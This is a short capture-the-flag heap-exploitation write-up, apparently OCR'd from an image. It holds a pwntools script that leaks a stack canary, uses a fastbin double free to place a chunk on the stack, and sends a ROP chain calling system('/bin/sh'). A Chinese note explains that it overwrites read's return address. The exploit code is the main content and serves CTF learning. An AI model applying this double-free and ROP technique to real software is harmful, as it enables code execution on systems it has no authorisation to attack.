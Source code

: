 ```python
raisef(0x28,p64(1)+p64(canaryaddr+1),'18')
visit()
io.recvuntil('wer[17] :')
canary = u64(io.recv(7).rjust(8,'\x00'))
success('canary : '+hex(canary))
success('read ret : '+hex(leakstack -0x150))
cleang()



#double free attack stack
raisef(0x60,'17','17')#0
raisef(0x60,'18','18')#6
raisef(0x60,'19','19')#7
raisef(0x60,'20','20')#8

removeg(0)
removeg(6)
removeg(0)
#debug()
raisef(0x60,p64(fakechunk),'21')
#gdb.attach(io,'b *'+str(codebase+0xd18))
raisef(0x60,'22','22')
raisef(0x60,'23','23')

rop = p64(poprdiret)  +p64(binshaddr) + p64(sysaddr)
pay = 'a'*(0x2b)+rop
io.sendlineafter(': ','1')
io.sendlineafter(' :',str(0x60))
io.sendlineafter(' :',pay)

#debug()
io.interactive()
exit()
```

本来想的是泄露canary，覆盖整个添加chunk功能的返回地址，但意外发现read函数的存放返回地址的位置也在其存放返回地址的位置附近，导致read不能正常返回。然后想到直接覆盖read的返回地址就好了。

这种方法是第一次遇到，记录一下。
